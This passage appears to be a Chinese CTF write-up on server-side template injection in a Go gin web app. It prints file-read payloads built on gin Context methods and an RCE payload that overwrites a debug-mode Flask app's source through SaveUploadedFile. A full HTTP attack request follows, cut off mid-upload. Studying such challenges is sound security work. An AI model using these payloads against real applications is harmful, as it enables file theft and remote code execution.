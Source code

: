 上面的include可以读取文件，但现在要把文件名传进去，不能直接传引号的字符串，所以需要一个可控字符串变量。

### `c *gin.Context`的使用

<https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index>

![](https://cdn.nlark.com/yuque/0/2023/png/26062900/1685390968293-7d55454c-56bd-4987-81f7-ccfeb6992cfd.png)

因此可以得到，文件读取的payload：

```php
{%include c.Request.Referer()%} #通过请求头的Referer
{%include c.Request.Host()%} #通过请求头的Host
{%include c.Query(c.ClientIP())%} #通过?ip\_add=/app/server.py读取
```

可以查看`/server/app.py`得知python代码：

发现它是debug模式的，**热部署（就是每次修改之后会重新编译运行一次）**

于是我们覆盖/server/app.py，进行RCE

具体payload

```php
{{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}
#或者
{{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
```

注意：

1、python有一定要是debug模式，debug有热部署

2、命令执行输出

```php
result = subprocess.run(\['cat', '/8c7b84719837708f8a34\_flag'\], stdout=subprocess.PIPE)
return result.stdout.decode()
```

3、10.0.0.5为自己的ip,可以通过模板注入{{c.ClientIP()}}查看

最后的请求包

```php
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}&10.0.0.5=/app/server.py HTTP/1.1
Host: 123.56.135.185:34466
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7IWRoUoGnVmsx4c3
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: session-name=MTY4NTE1MjUwNXxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXz4a\_LGemcYTYn-el4CAu5G5Fg8dJgY-\_pbUkyM3VIfqQ==
Connection: close
Content-Length: 499

------WebKitFormBoundary7IWRoUoGnVmsx4c3
Content-Disposition: form-data; name="10.0.0.5"; filename="1.py"
Content-Type: text/x-python

import subprocess
from flask import Flask,request

```